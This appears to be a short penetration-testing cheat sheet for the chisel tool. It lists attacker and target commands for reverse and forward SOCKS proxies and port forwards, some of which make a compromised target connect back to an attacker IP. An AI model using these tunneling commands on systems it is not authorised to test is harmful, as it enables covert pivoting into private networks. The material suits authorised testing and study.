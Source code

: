 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker: ./chisel server -p LISTENING_PORT --reverse &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

### Forward SOCKS proxy

 - Target: ./chisel server -p LISTEN_PORT --socks5

 - Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target: ./chisel server -p LISTEN_PORT

 - Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker: ./chisel server -p LISTEN_PORT --reverse &

 - Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

### Then on our machine, we browse to http://127.0.0.1:TARGET_LOCAL_PORT

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
